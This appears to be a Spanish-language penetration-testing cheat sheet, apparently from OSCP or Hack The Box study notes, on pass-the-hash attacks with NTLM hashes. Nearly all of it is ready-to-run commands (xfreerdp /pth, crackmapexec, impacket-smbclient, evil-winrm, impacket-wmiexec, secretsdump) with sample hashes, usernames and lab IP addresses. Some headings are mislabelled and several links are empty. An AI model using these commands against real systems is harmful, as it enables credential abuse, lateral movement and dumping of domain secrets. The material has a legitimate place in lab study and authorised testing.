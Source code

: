 ## DESCRIPTION

Diferentes herramienta para pasar el hash (NTLM).
Se puede conseguir con mimikatz, secretdump, de la SAM o de la NTDS.

#### Mas información
* 


## EXPLOITATION

### OPTION 1: RDP

```
xfreerdp  +compression +clipboard /dynamic-resolution +toggle-fullscreen /cert-ignore /bpp:8  /u:celia.almeda /pth:e728ecbadfb02f51ce8eed753f3ff3fd /v:10.10.94.142 /d:oscp.exam
```

### OPTION 1: SMB

```
crackmapexec winrm 10.10.94.142 -u "celia.almeda" -H "e728ecbadfb02f51ce8eed753f3ff3fd" 
```

Se puede comprobar también WINRM desde aquí

```
impacket-smbclient oscp.exam/celia.almeda@10.10.94.140 -hashes ':e728ecbadfb02f51ce8eed753f3ff3fd'
```

### OPTION 1: WINRM

```
evil-winrm -i 10.10.94.142 -u celia.almeda -H e728ecbadfb02f51ce8eed753f3ff3fd 
```

### OPTION 1: WMI

```
impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.206.72 
```
### OPTION 1: SECRETDUMP

```
secretsdump.py  'EXTERNAL/Administrator@192.168.166.248' -hashes 'aad3b435b51404eeaad3b435b51404ee:56e4633688c0fdd57c610faf9d7ab8df'
```



## MACHINES

* Hack The Box: 

**!!NOTA IMPORTANTE!!** 